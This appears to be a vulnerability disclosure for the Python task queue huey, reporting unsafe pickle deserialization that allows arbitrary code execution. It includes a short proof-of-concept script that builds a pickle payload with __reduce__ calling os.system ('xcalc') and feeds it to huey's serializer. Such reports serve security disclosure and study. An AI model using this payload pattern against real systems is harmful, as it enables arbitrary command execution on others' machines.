 # Description
huey is a little task queue for python 
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip install huey')
from huey import serializer
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
serializer.Serializer._deserialize(dumps,dumps)
```
* `pip3 install huey`
* `python3 exploit.py`
